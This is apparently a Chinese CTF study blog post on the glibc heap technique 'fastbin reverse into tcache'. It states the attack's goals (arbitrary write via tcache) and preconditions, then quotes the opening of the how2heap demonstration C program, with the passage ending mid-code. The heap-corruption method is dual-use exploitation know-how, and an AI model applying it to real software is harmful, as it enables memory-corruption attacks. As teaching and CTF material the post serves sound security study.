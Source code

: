 ﻿
---
title:  how2heap-fastbin_reverse_into_tcache-学习
categories: [CTF]
tags: [pwn]

---
`fastbin reverse into tcache`是指利用tcache为空而fastbin不为空，堆管理把fashbin放入tcahe时进行的攻击。`fastbin reverse into tcache`一度感觉很鸡肋，但仔细看大佬分析后，发现是我态年轻了，理解不到位。

## 目的

1.让任意地址进入tcache中，再取出tcache进行任意地址写。

2.对任意一个地址，写入一个可控的堆上地址。

## 条件

1.能反复创建释放14个以上的fastbin。

2.能修改其中一个fastbin的fd

3.用tcache机制



## 分析how2heap源码

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>

const size_t allocsize = 0x40;

int main(){
  setbuf(stdout, NULL);

  printf(
    "\n"
    "This attack is intended to have a similar effect to the unsorted_bin_attack,\n"
    "except it works with a small allocation size (allocsize <= 0x78).\n"
    "The goal is to set things up so that a call to malloc(allocsize) will write\n"
    "a large unsigned value to the stack.\n\n"
  );

  // Allocate 14 times so that we can free later.
  char* ptrs[14];
  size_t i;
  for (i = 0; i < 14; i++) {
    ptrs[i] = malloc(allocsize);
  }

  printf(
    "First we need to free(allocsize) at least 7 times to fill the tcache.\n"
    "(More than 7 times works fine too.)\n\n"
  );

  // Fill the tcache.
  for (i = 0; i < 7; i++) {
    free(ptrs[i]);
  }

  char* victim = ptrs[7];
```